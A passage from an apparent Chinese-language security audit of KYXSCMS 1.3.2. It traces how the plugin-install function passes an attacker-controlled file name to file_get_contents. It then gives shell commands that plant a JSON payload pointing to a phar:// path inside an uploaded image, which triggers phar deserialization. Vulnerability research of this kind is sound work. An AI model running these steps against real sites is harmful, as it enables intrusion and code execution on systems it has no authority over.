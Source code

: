 如果传`?model=insert`，就会进行`insert_install`：

```php
    //插件安装
    public function insert_install($id){
        $url = Config::get('web.official_url').'/upgrade/info/'.$id;
        $Content=Http::doGet($url,30,$this->oauth_access_token);
        $info=json_decode($Content,true);
        if(!empty($info['error'])){
            $this->error=$info['error'];
           return false;
        }
        $upArray=$this->upContent();
        if($this->install_file($upArray)==false){
            return false;
        }
```

前面的代码经过调试，不用管，直接看这里：

```php
        $upArray=$this->upContent();
        if($this->install_file($upArray)==false){
            return false;
        }
```

`$upArray`是可控的。然后进入`install_file`：

```php
    private function install_file($list_array){
        foreach ($list_array as $value) {
            if($value['suffix']==='del' || $value['suffix']==='sql'){
                $upCode=file_get_contents($value['stored_file_name']);
```

`$value['stored_file_name']`可控，因此存在phar反序列化。

把上面的那个改一下其实就差不多了：

```php
mkdir upgrade
cd upgrade
mkdir updata
cd upgrade
echo '{"0":{"suffix":"del","stored_file_name":"phar://./uploads/config/20210602/20a9e2a63d2a1e5d42094af2ec61e42e.png"}}' > index.php
cd ../
cd ../
echo "<?php phpinfo();?>" > 1.txt
```

![pic17](KYXSCMS1.3.2审计与测试.assets/pic18.png)
